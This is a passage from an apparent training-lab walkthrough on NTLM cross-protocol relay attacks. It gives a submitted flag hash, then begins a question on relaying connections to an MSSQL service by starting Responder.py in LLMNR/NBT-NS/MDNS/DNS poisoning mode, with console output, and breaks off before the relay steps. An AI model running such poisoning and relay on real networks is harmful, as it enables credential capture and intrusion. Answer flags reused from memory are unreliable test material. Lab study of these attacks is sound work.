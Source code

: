 ```shell-session
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up.
```

Answer: `914b011029e6b43cf188d435951831bd`

## NTLM Cross-protocol Relay Attacks

### Question 4

#### "Use impacket's SOCKS server to hold NPORT's relayed connections and abuse them to access the MSSQL service at 172.16.117.60; query the 'flag' table within the 'development01' database and submit the flag."

Using the previously established SSH sessions, students will proceed to start `Responder.py` using `sudo` in poisoning mode using the previously altered configuration:

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...
```
